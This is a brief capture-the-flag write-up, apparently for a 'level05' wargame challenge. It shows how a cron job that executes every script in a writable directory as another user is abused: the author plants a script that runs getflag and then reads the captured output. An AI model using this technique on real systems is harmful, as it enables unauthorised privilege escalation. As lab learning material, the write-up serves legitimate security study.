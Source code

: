 # When logging with the account level05 it say that we have a new mail
cat /var/mail/level05 
> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
cat /usr/sbin/openarenaserver
> #!/bin/sh
>
> for i in /opt/openarenaserver/* ; do
> 	(ulimit -t 5; bash -x "$i")
> 	rm -f "$i"
> done

echo "getflag > /tmp/oui" > /opt/openarenaserver/script.sh
sleep 30
cat /tmp/oui